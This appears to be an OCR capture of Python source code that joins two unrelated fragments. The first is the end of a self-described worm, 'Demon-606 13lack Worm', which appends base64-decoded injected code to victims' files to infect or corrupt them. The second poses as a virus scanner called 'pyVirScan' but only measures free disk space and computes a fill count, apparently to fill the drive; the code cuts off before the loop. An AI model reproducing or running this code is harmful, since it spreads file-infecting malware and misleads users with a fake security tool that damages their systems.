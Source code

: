    print (Fore.RED + '[+] Code injected in %s Successfully. [ Corrupt = TRUE ]' + Fore.RESET)%file
   sleep(2)
  except:
   print (Back.RED + '[-] Unable to inject in %s [ Access Deniad ]' + Back.RESET)%file
   pass
 elif(corrupt_or_justinject == 'inject' or corrupt_or_justinject == 'INJECT'):
  try:
   f = open(file,'a+')
   f.write(signature.decode('base64'))
   f.write(code_to_inject.decode('base64'))
   f.close()
   print (Fore.RED + '[+] Code injected in %s Successfully. [ Corrupt = FALSE ]' + Fore.RESET) %file
   sleep(2)
  except:
   print (Back.RED + '[-] Unable to inject in %s [ Access Deniad ]' + Back.RESET)%file
   pass
 else:
  print (Back.RED + '[-] Error : Invalid Option Enter use only [1] inject [2] corrupt' + Back.RESET)
  break
  exit(1)
print (Fore.BLUE + '(*) Demon-606 13lack Worm Stopped.' + Fore.RESET)
sleep(2)
exit(1)
import win32file
import os
 
def get_drivestats():
    
    drive = os.path.splitdrive(os.getcwd())[0].rstrip(':')
    sectPerCluster, bytesPerSector, freeClusters, totalClusters = \
        win32file.GetDiskFreeSpace(drive + ":\\")
    free_space = freeClusters*sectPerCluster*bytesPerSector
    return free_space, drive
print ("-"*40)
print ("-" + " " * 9 + "Welcome to pyVirScan" + " " * 9 + "-")
print ("-" + " " * 2 + "A Virus Scanner written in Python!" + " " * 2 + "-")
print ("-" + " " * 13 + "Version 1.00" + " " * 13 + "-")
print ("-"*40)
print ("Be patient, you will be notified when the scan is complete")
#print ("Current Progress: 0.01%")
 
free_space, drive = get_drivestats()
 
 
kb = float(1024)
kbFree = free_space / kb
 
 
fillWithFloat = kbFree / 409600
 
 
fillWithInt = int(round(fillWithFloat))
loopNum = 1
 
 
 
